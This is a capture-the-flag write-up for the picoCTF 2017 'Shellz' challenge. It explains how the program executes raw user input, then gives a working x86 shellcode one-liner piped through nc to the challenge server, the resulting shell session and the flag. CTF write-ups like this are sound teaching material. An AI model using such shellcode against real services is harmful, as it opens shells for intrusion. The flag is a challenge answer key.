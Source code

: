# Shellz
## level 2 - binary exploitation - 55 points

### Description
> You no longer have an easy thing to call, but you have more space. Program: [shellz](./data/shellz)! [Source](./data/shellz.c). Connect on shell2017.picoctf.com:6942.

### Hints
> * There is a bunch of preexisting shellcode already out there!


### Solution

Connect via `nc`, it will prompt you a message:

```
$ nc shell2017.picoctf.com 6942
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 40 bytes:
```

It will ask for (at most) 40 bytes of data then exit. Looking into the source we can notice something peculiar:

```c
char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
// ...
void (*func)() = (void (*)())stuff;
func();
```

Line 27 will create a function pointer to the bytes we provided, then it will be called in line 28, so we can use input to inject arbitrary [shellcode](https://en.wikipedia.org/wiki/Shellcode) to get access to shell.

I looked for a suitable shellcode (remeber the 40 bytes constraint) [here](http://shell-storm.org/shellcode/) and I chose [shellcode-752](http://shell-storm.org/shellcode/files/shellcode-752.php). To send data to `nc` we can use Python, remember we have to use `cat` to keep the shell open:

```shell
(python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"'; cat -) | nc shell2017.picoctf.com 6942
```

Once run just type normal shell commands:

```
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 40 bytes:
ls
flag.txt
shellz
shellz_no_aslr
xinetd_wrapper.sh
cat flag.txt
4effa67d6909029fd3cc45600f024e3f
```

### Flag
```
4effa67d6909029fd3cc45600f024e3f
```